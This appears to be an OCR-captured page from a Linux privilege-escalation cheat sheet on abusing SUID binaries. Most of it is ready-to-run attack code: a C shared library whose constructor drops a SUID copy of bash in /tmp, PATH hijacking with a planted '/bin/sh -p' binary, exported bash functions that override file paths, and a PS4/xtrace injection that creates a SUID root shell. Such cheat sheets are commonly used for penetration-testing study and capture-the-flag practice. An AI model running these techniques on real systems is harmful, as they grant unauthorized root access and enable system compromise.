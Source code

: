 ```
# search for .so file loaded in a writable directory
strace <SUID-BINARY> 2>&1 | grep -i -E "open|access|no such file"   
```
```c
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject(){
    system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}
```
```
gcc -shared -fPIC -o /home/user/.config/lib.so /home/user/.config/lib.c
```

- If a binary is called without its path, it can be exploited due to it inheriting the user's PATH environment variable and attempting to execute programs without specifying an absolute path :

```
strings /usr/bin/suid-program # identify binary without full path inside

type binary # not built-in

export PATH=/tmp:$PATH
echo "/bin/sh -p" > /tmp/binary
chmod +x /tmp/binary

/usr/bin/suid-program
```

- Abusing shell features, bash < 4.2.048 :

In Bash versions < 4.2-048 it is possible to define shell functions with names that resemble file paths, then export those functions so that they are used instead of any actual executable at that file path.

```
/bin/bash --version

strings /usr/local/bin/suid-program # identify the absolute path of the executable (/usr/sbin/service)

function /usr/sbin/service { /bin/bash -p; }
export -f /usr/sbin/service

/usr/local/bin/suid-program
```

- Abusing shell features, bash < 4.4 :

When in debugging mode, Bash uses the environment variable PS4 to display an extra prompt for debugging statements

```
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2
/tmp/rootbash -p
```
